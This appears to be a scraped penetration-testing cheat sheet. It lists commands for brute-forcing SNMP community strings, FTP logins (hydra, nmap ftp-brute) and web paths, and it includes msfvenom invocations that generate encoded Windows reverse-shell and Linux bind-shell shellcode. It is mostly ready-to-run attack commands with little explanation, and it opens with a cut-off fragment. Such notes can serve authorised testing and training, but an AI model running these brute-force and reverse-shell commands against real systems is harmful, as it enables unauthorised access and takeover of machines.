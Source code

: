 where credentials.txt is:
```bash
username = <value>
password = <value>
domain   = <value>
```


```bash
echo public > community
echo private >> community
echo manager >> community
onesixtyone -c community IP
```


# Checks

* 21/tcp
	* ftp anonymous
		* download/upload+rev-shell
	* ftp brufeforce
		* nmap --script ftp-brute -p 21 IP
		* hydra -t 1 -L wordlist-user -P wordlist-pass -vV IP ftp
		* https://github.com/arjnklc/FTP-Brute-Forcer/blob/master/ftp_brute_forcer.py
* 80/tcp, 443/tcp, web
	* dirb - subpaths, files
	* nikto - vuln, paths
	* cewl - wordlist 

* 139/tcp, 445/tcp
	* smb-security

# Shellcode generation
## windows reverse shell - exploitation - 32 bit
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

## windows reverse shell - exploitation - 32 bit exit as a thread
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

## linux bind shell - exploitation - 32 bit
```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=PORT -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```
